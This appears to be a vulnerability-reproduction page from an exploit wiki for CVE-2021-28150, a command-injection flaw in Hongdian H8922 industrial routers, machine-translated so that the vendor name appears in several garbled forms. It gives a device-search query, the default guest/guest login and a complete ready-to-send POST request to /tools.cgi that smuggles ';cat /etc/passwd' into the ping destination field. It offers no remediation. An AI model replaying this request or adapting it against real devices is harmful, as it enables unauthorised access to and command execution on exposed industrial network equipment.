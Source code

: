 # Macrophone H8922 background command execution vulnerability CVE-2021-28150

## Vulnerability Description

There is a command execution vulnerability in the network test module in the background of the MacroDen H8922. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HongDrive H8922</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app:"Hongdian H8922 Industrial Router"</span>

## Vulnerability reappears

Log in to the background (there is the default account password of the guest user guest/guest)

Use ; command splicing to execute any command

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/hd-2.png)



The request package is



```plain
POST /tools.cgi HTTP/1.1
Host:
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```



## 